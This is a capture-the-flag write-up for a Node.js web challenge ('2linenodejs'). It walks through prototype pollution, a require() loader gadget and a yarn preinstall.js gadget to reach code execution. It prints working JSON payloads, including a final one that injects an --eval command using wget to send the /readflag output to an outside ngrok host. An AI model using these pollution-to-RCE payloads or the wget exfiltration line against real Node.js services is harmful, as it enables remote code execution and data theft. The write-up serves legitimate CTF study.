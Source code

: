 # 2linenodejs

## Description

Web | 13 solves

> Sorry for my bad coding style :(
>
> Author: ginoah

## Solution

### Prototype Pollution

Taking a look at the source, we see quite clearly that there is a prototype pollution here.

```javascript
#!/usr/local/bin/node
process.stdin.setEncoding('utf-8');
process.stdin.on('readable', () => {
  try{
    console.log('HTTP/1.1 200 OK\nContent-Type: text/html\nConnection: Close\n');
    const json = process.stdin.read().match(/\?(.*?)\ /)?.[1],
    obj = JSON.parse(json);
    console.log(`JSON: ${json}, Object:`, require('./index')(obj, {}));
  }catch (e) {
    require('./usage')
  }finally{
    process.exit();
  }
});
```

`JSON.parse` will allow the `__proto__` key, storing it as `['__proto__']` instead (which surprisingly works as a key when used here):

```javascript
module.exports=(O,o) => (
    Object.entries(O).forEach(
        ([K,V])=>Object.entries(V).forEach(
            ([k,v])=>(o[K]=o[K]||{},o[K][k]=v)
        )
    ), o
);
```

Great! We have a prototype pollution - how do we leverage it to an RCE?

### require() Gadget

After performing the pollution, we don't have much of a choice where we want to go. Either nothing happens and `process.exit()` is called, or we cause an exception and `require('./usage')` is called. Causing an exception is pretty simple and I actually stumbled upon it early on when testing simple payloads.

If one of the key-value pairs is a mapping to `null`, then `Object.entries(V)` will yield a `TypeError` since `null` cannot be converted to an `Object`.

```javascript
        ([K,V])=>Object.entries(V).forEach(
                        ^

TypeError: Cannot convert undefined or null to object
```

If we look into the `internal/modules/cjs/loader.js`, we see that in the `trySelf` function, there is a [possible gadget](https://github.com/nodejs/node/blob/beb0520af74ed20c3d48a1b4f6ca8a89664976c6/lib/internal/modules/cjs/loader.js#L461).

If `readPackageScope` returns `false`, then the destructuring assignment should leave `pkg` and `pkgPath` as `undefined`, since the right-hand side is `{}`. But if we pollute `__proto__.data` and `__proto__.path`, then we can control `pkg` and `pkgPath`.

```javascript
function trySelf(parentPath, request) {
  if (!parentPath) return false;

  const { data: pkg, path: pkgPath } = readPackageScope(parentPath) || {};
  if (!pkg || pkg.exports === undefined) return false;
  if (typeof pkg.name !== 'string') return false;
```

But what is `pkg` and `pkgPath`? We could look at `readPackageScope` and find out that it calls&#x20;

[`readPackage`](https://github.com/nodejs/node/blob/beb0520af74ed20c3d48a1b4f6ca8a89664976c6/lib/internal/modules/cjs/loader.js#L308) to populate the result, and `readPackage` just reads the `package.json` file of a Node.js module.

```javascript
function readPackage(requestPath) {
  const jsonPath = path.resolve(requestPath, 'package.json');

  const existing = packageJsonCache.get(jsonPath);
  if (existing !== undefined) return existing;
  
  ...
```

So `pkg` appears to just be an object containing the [`package.json` fields](https://nodejs.org/api/packages.html#nodejs-packagejson-field-definitions) and `pkgPath` is the path to this package. Importantly, we see `pkg.exports` being used a lot in the subsequent code path, and this makes sence given the following explanation of `exports` in `package.json`:

> The `"exports"` field allows defining the [entry points](https://nodejs.org/api/packages.html#package-entry-points) of a package when imported by name loaded either via a `node_modules` lookup or a [self-reference](https://nodejs.org/api/packages.html#self-referencing-a-package-using-its-name) to its own name.&#x20;

With this knowledge, we can confirm that the following exploit allows us to load any JavaScript file.

```json
{
    "__proto__": {
        "data": {
            "name": "./usage",
            "exports": {
                ".": "./some-file.js"
            }
        },
        "path": "/some/path/to/file",
    },
    "x": null
}
```

### preinstall.js Gadget

Initially doing a simple search for all JavaScript files in the container (`find / -name "*.js" 2>/dev/null`), we can find `/opt/yarn-v1.22.19/preinstall.js`. Doing a bit of digging, we can find out that this script is added from [here](https://github.com/yarnpkg/yarn/pull/8343).

Immediately we see in this script that we have `child_process.execFileSync` being called, which looks promising.

```javascript
if (process.env.npm_config_global) {
    var cp = require('child_process');
    var fs = require('fs');
    var path = require('path');

    try {
        console.log(process.execPath, process.env.npm_execpath)
        var targetPath = cp.execFileSync(process.execPath, [process.env.npm_execpath, 'bin', '-g'], {
            encoding: 'utf8',
            stdio: ['inherit', 'inherit', 'inherit'],
        }).replace(/\n/g, '');
        process.exit()
```

First off, to reach this code path we could need to pollute `npm_config_global` to a truthy value.

`process.execPath` is always `/usr/bin/node`, and we can't control it. But we could control `process.env.npm_execpath` since it is not set by default. Looking at the [CLI documentation](https://nodejs.org/api/cli.html), the [`-e` or `--eval`](https://nodejs.org/api/cli.html#-e---eval-script) option looks promising! This would basically allow us to run inline JavaScript.

One issue is that because the regex matches up to the first space character, our JSON cannot have any spaces.

```javascript
const json = process.stdin.read().match(/\?(.*?)\ /)?.[1],
```

To get around this, we use `${IFS}`. For instance, we could pollute `npm_execpath` to `--eval=require('child_process').execSync('sleep${IFS}5')`.

The final payload was using `wget` and command substitution to exfiltrate the `/readflag` output.

```javascript
{
    "__proto__": {
        "data": {
            "name": "./usage",
            "exports": {
                ".": "./preinstall.js"
            }
        },
        "path": "./",
        "npm_config_global": 1,
        "npm_execpath": "--eval=require('child_process').execSync('wget${IFS}https://012c-49-245-33-142.ngrok.io/`/readflag`')"
    },
    "x": null
}
```

This gives us the flag on our listening HTTP server.

```http
GET /BALSN%7BPr0toTyP3_PoL1u7i0n_1s_so_Cooooooool%21%21%21%7D HTTP/1.1
Host: 012c-49-245-33-142.ngrok.io
User-Agent: Wget
X-Forwarded-For: 44.204.208.69
X-Forwarded-Proto: https
Accept-Encoding: gzip
```

